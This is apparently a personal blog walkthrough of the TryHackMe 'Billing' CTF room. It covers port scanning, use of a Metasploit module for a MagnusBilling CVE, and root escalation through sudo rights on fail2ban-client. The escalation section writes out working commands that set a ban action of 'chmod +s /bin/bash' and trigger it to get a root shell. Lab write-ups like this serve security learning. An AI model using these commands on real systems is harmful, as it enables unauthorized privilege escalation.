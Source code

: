 ```yaml
---
title: Write-up — Billing
date: 2025-07-16 10:00:00 AM
categories: [Write-up, Try Hack Me]
tags: [Try Hack Me, Write-up, ctf]
image: 'assets/img/articles/Billing.png'
description: "Explore my step-by-step guide to the TryHackMe Billing room. Learn how to perform reconnaissance with RustScan and Nmap, exploit web app vulnerabilities, and escalate privileges using Fail2Ban. Perfect for cybersecurity enthusiasts and professionals."
---
```


> Walkthrough of room Billing from TryHackMe :
> https://tryhackme.com/room/billing

This room is designed to teach you about billing systems and how to exploit them. It covers various aspects of billing, including vulnerabilities, exploitation techniques, and privilege exploitation.

---

## Recon

We will start by some recon...

![](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExaG14ejdmY3dhd283Nm1obGswNGFuZDZvYmxndno5NXE5NXkzaWFmNiZlcD12MV9naWZzX3NlYXJjaCZjdD1n/i9cngh3Kw09GxlsrFP/giphy.gif)

```bash
$ rustscan -a $TARGET        
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
To scan or not to scan? That is the question.

[~] The config file is expected to be at "/home/hisoka/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.127.112:22
Open 10.10.127.112:80
Open 10.10.127.112:3306
Open 10.10.127.112:5038

...

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
3306/tcp open  mysql   syn-ack ttl 63
5038/tcp open  unknown syn-ack ttl 63
```

We need to uncover the unknown service.

```bash
$ nmap -sC -sV $TARGET -p5038
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-15 17:15 CEST
Nmap scan report for billing.thm (10.10.127.112)
Host is up (0.14s latency).

PORT     STATE SERVICE  VERSION
5038/tcp open  asterisk Asterisk Call Manager 2.10.6

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.96 seconds
```

![You said asterix](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExeXU1eTFkMHB4bDRtbHc4OXlueXhhYnFodTRyNGN4OXozczE0MDhubSZlcD12MV9naWZzX3NlYXJjaCZjdD1n/1Md9azxcgIyQ/giphy.gif)
_You said Asterix!!!_

So we have 4 services running:

| Port | Service  | Purpose  |
| ---- | -------- | -------- |
| 22   | ssh      |          |
| 80   | http     | Web      |
| 3306 | mysql    | Database |
| 5038 | asterisk | VoIP     |

Let's check the web page. It seems, we have a web application running on the server.

![Login page](assets/img/2025-07-16-THM-Billing/magnus-login-page.png){: w="600"}

The web page url contains the term *mbilling* (`/mbilling`). Probably link to a payment feature or something like that.
A quick search on Google help me to discover the name of the web app called **Magnus Billing** (same logo, use Asterisk can't be wrong).

![](assets/img/2025-07-16-THM-Billing/mbilling-google.png){: w="600"}

A great new is we have a cve (**CVE-2023-30258**) for our web app.

![](assets/img/2025-07-16-THM-Billing/exploit-db.png){: w="600"}

![](assets/img/2025-07-16-THM-Billing/metasploit-magnus-search.png){: w="600"}

And it's also available on metasploit!!!

![](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExa2Q0ZTZkZmlwMDZiZXZlNXU1Y2M3dW8wYWcwZDZuZzk1b2pqem95eCZlcD12MV9naWZzX3NlYXJjaCZjdD1n/BYul6RujgoRCryuCdL/giphy.gif)

A little config on the exploit to make it work.
![](assets/img/2025-07-16-THM-Billing/meterpreter-session.png){: w="600"}

## Initial access

```bash
$ whoami
whoami
asterisk

$ ls /home
ls /home
debian	magnus	ssm-user

$ ls /home/magnus
ls /home/magnus
Desktop    Downloads  Pictures	Templates  user.txt
Documents  Music      Public	Videos

$ cat /home/magnus/user.txt
cat /home/magnus/user.txt
THM{********************************}
```

And voila!

![](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExeXA2Z210MXB4bzBsODVwNmxreXYzNWQzaW10MXR1ODA5eWpuZDZhYSZlcD12MV9naWZzX3NlYXJjaCZjdD1n/kxUhZ0TY46X1Dk48ru/giphy.gif)

## Privilege escalation

```bash
$ sudo -l
sudo -l
Matching Defaults entries for asterisk on ip-10-10-127-112:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on ip-10-10-127-112:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

That means we can execute **`fail2ban-client`** with **sudo** rights.

Let's explain few things about **`fail2ban`**. Fail2Ban is an open-source intrusion prevention software framework designed to protect computer servers from brute-force attacks and other automated threats. Its primary purpose is to enhance the security of a system by monitoring log files for suspicious activity and **taking automated actions** to mitigate potential threats. For example, if a suspicious IP tries to connect to ssh server by brute-forcing the password, fail2ban can block the IP based on a criteria (like 10 connexion attempts).
So we can abuse `fail2ban-client` by setting an evil automated actions.

```bash
$ sudo /usr/bin/fail2ban-client status
sudo /usr/bin/fail2ban-client status
Status
|- Number of jail:	8
`- Jail list:	ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd

$ sudo /usr/bin/fail2ban-client set sshd addaction evil
sudo /usr/bin/fail2ban-client set sshd addaction evil
evil

$ sudo /usr/bin/fail2ban-client set sshd action evil actionban "chmod +s /bin/bash"
sudo /usr/bin/fail2ban-client set sshd action evil actionban "chmod +s /bin/bash"
chmod +s /bin/bash

$ sudo /usr/bin/fail2ban-client set sshd banip 1.2.3.4
sudo /usr/bin/fail2ban-client set sshd banip 1.2.3.4

$ /bin/bash -p
/bin/bash -p

bash-5.2# whoami
whoami
root
```

**Explanation**

- *Listing Jails*: The `status` command lists all active jails managed by Fail2Ban.
- *Adding an Action*: The `addaction` command adds a new action to the specified jail.
- *Setting the Payload*: The `actionban` command sets the script or command to be executed when an IP is banned.
- *Triggering the Payload*: The `banip` command triggers the `actionban` script, executing your payload with elevated privileges.
- `chmod +s /bin/bash`: sets the setuid bit on the Bash executable, allowing users to run it with the permissions of its owner, typically root.
- `/bin/bash -p`: to start a Bash shell with root privileges. The `-p` option ensures that the shell retains the elevated privileges.

```bash
bash-5.2$ whoami
whoami
root

bash-5.2$ ls /root
ls /root
filename  passwordMysql.log  root.txt

bash-5.2$ cat /root/root.txt
cat /root/root.txt
THM{********************************}
```

![](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExazBncDNpcTIxaTQ0N3E4Njhjb2NhZWQwdXhxOGxqamdhbmdocTJyeSZlcD12MV9naWZzX3NlYXJjaCZjdD1n/STrEzUEFPWLsY/giphy.gif)

All flags down, mission passed.

Be proud of what you’ve accomplished.

![](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExejBueW15czhhbm82bGZydWlmbjc2ZHJxdHZ0eHE3MjAwNDhjZWh5OSZlcD12MV9naWZzX3NlYXJjaCZjdD1n/Ju7l5y9osyymQ/giphy.gif)

See you soon!

> “Cybersecurity is a continuous cycle of protection, detection, response, and recovery.” — Chris Painter


{% include comment.html %}